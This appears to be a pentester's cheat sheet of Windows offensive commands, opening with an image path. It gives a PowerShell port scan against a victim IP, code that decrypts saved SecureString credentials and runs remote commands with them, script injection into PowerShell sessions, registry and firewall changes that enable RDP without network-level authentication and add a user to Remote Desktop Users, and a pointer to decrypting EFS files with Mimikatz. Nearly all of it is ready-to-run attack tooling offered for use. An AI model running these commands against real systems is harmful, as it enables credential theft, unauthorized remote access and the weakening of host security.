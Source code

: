 ### Powershell Portscan
0..65535 | % {echo ((new-object Net.Sockets.TcpClient).Connect(VICTIM_IP,$_)) "Port $_ is open!"} 2>$null

### Recovering Powershell Secure String
######
$user = "user"
$file = "user-pass.xml"
$cred= New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $user, (Get-Content $file | ConvertTo-SecureString)
Invoke-Command -ComputerName ECORP -Credential $cred -Authentication credssp -ScriptBlock { whoami }
######
[System.Runtime.InteropServices.marshal]::PtrToStringAuto([System.Runtime.InteropServices.marshal]::SecureStringToBSTR("string"))
######
$Ptr = [System.Runtime.InteropServices.Marshal]::SecureStringToCoTaskMemUnicode($password)
$result = [System.Runtime.InteropServices.Marshal]::PtrToStringUni($Ptr)
[System.Runtime.InteropServices.Marshal]::ZeroFreeCoTaskMemUnicode($Ptr)
$result

### Injecting PowerSHell scripts into sessions
Invoke-Command -FilePath scriptname -Sessions $sessions
Enter-PSSession -Session $sess

### Enable RDP
# CMD 
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
# Powershell
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server'-name "fDenyTSConnections" -Value 0
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
# Optional
net localgroup "Remote Desktop Users" morph3 /add
# Reruling firewall
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
netsh advfirewall firewall add rule name="allow RemoteDesktop" dir=in protocol=TCP localport=3389 action=allow

### Decrypting EFS files with Mimikatz
Follow the link here How to Decrypt EFS Files
